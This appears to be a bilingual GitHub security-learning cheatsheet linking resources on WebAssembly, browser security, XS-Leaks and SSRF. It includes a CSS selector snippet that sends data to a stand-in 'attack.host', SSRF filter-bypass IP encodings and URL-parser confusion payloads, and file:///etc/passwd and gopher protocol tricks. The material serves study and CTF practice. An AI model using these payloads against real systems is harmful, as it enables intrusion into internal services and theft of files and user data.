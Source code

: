 # Security Learning    
Cheatsheet, Links, Enjoy it  ☕️  

| Topic        | Des           |
| ------------- |:-------------:|
| [How to take good practice](#how-to-take-a-good-practice) | learn security, read source code... |
| [WASM](#wasm) | Web Assembly |
| [Frontend](#frontend) | Browser knowledge |
| [XSS](#xss) | XSS |
| [SSRF](#ssrf) | SSRF |


# How to take a good practice
* [安全研究者的自我修养](https://mp.weixin.qq.com/s?__biz=MzU0MzgzNTU0Mw==&mid=2247483913&idx=1&sn=2a0558592e072389e348dc8f7c6223d1&chksm=fb0416f1cc739fe7aed6f45167dc5a555974aaeb250cdcdc3bdd973ae151b8534a7c2cef6c43&scene=21#wechat_redirect)  
* [So you want to be a web security researcher?](https://portswigger.net/blog/so-you-want-to-be-a-web-security-researcher)  
* [如何阅读一份源代码？](https://www.codedump.info/post/20190324-how-to-read-code/)  

# WASM
* [WebAssembly Concepts
](https://developer.mozilla.org/en-US/docs/WebAssembly/Concepts)  
* [Using the WebAssembly JavaScript API
](https://developer.mozilla.org/en-US/docs/WebAssembly/Using_the_JavaScript_API)  
* [Introduction to WebAssembly](https://sensepost.com/blog/2018/introduction-to-webassembly/)  
* [玩轉 WebAssembly && 逆向](https://blog.1pwnch.com/web/reverse/2019/05/22/Say-Hello-to-WASM/#more)

# Frontend
* [你真的会使用XMLHttpRequest吗?](https://segmentfault.com/a/1190000004322487)  
* [SOP與CORS安全詳解](https://jiwo.org/ken/detail.php?id=2393)  

# XSS
## XS-Leaks
* [Exposing Intranets with reliable Browser-based Port scanning](https://portswigger.net/blog/exposing-intranets-with-reliable-browser-based-port-scanning)  
* [从35c3CTF的filemanager题目中学到的一个小tips](https://blog.wonderkun.cc/2018/12/30/%E4%BB%8E35c3CTF%E7%9A%84filemanager%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E5%88%B0%E7%9A%84%E4%B8%80%E4%B8%AA%E5%B0%8Ftips/#more)  
* [github-xsleaks](https://github.com/xsleaks/xsleaks/wiki)  
* [secret note keeper -- Facebook CTF 2019](https://sectt.github.io/writeups/FBCTF19/secret_note_keeper/README)  
* [gimme-a-bit-exploring-attacks-in-the-post-xss-world](https://speakerdeck.com/lmt_swallow/gimme-a-bit-exploring-attacks-in-the-post-xss-world)  

雖然和XSS一樣是跨域偷信息的技巧，但因為受限於SOP所以不是直接回傳信息，而是利用盲注: **配合爆破觀察瀏覽器的行為**(猜中和沒猜中頁面會有何差異)! 至於如何跨域觀察瀏覽器的行為呢? 特定信息是可以跨域傳送的，像是iframe count就不受SOP的限制，樓上35c3的filemanager就是利用onload數量和xss-auditor來跨域爆破出flag的!  

## Steal data with CSS
* [使用CSS窃取数据：攻击与防守](http://www.fwheart.club/2019/04/08/[%E8%AF%91]%E4%BD%BF%E7%94%A8CSS%E7%AA%83%E5%8F%96%E6%95%B0%E6%8D%AE%EF%BC%9A%E6%94%BB%E5%87%BB%E4%B8%8E%E9%98%B2%E5%AE%88/)  

在頁面中注入css，利用attribute selector，若match則傳送特定query (`{background:url("https://attack.host/aa");}`) 到自己的server以竊取資訊!  

# SSRF
Find server's API which will send request  
## Bypass IP, URL limit
```c
127.0.0.1
127.0.1
127.1
0.0.0.0   // linux
0.0
0
127.0.0.1.xip.io
0x7f000001
2130706433
017700000001
ⓛⓞⓒⓐⓛⓗⓞⓢⓣ   // enclosed alphanumerics
[::]
// use to port to bypass ip segment limit
127.0.0.1:80

// intranet
10.0.0.0/8   // 10.0.0.0 ~ 10.255.255.255
172.16.0.0/12   // 172.16.0.0 ~ 172.31.255.255
192.168.0.0/16  // 192.168.0.0 ~ 192.168.255.255
127.0.0.0/8
0.0.0.0/8
```  
* Obfuscation: double URL-encoding  
* According to RFC3968  
  url preceded by a double slash, terminated by the next slash, `?` or `#`, or the end of url.  
  check url supports `@` (embedded credential) or not, combine following payloads with obfuscation  
  * `evil-host#@expected-host`  
  * `expected-host#@evil-host:evil-port:expected-port`  
  * `expected-host@evil-host`  
  * `evil-host#expected-host`  

Match rules:  
```php
// php
parse_url():
host: the host after the last @

// libcurl
host: the host after the first @
```

## 302 Redirect bypass  
Check only first time and ignore the second time  
find redirect vulnerability e.g. `http://aaa.com/a?req=/b`  
put into API **which is already believed by server** e.g. `api=http://aaa.com/a?req=evil-host`

## Protocol
* `dict://<user-auth>@<host>:<port>/`  
* `sftp://`  
* `file://`  
  ```c
  file:///etc/passwd
  file://domain/etc/passwd
  ```
* `tftp://`  
* `ldap://`  
* `gopher://`  
  [利用 Gopher 协议拓展攻击面](https://blog.chaitin.cn/gopher-attack-surfaces/)

## Blind-SSRF

## Some more challenges?
* Only partial url is controlled?  


## Tool
* [requestbin](https://requestbin.com/)  
* [CEYE](http://ceye.io/)

## Reference
* [Portsigger material](https://portswigger.net/web-security/ssrf)  
* [了解SSRF，這一篇就足夠了](https://xz.aliyun.com/2115)  
* [SSRF testing resources](https://github.com/cujanovic/SSRF-Testing)  
* [談一談如何在python開發中拒絕SSRF漏洞](https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html)  
* [SSRF 學習紀錄](https://hackmd.io/@Lhaihai/H1B8PJ9hX?type=view)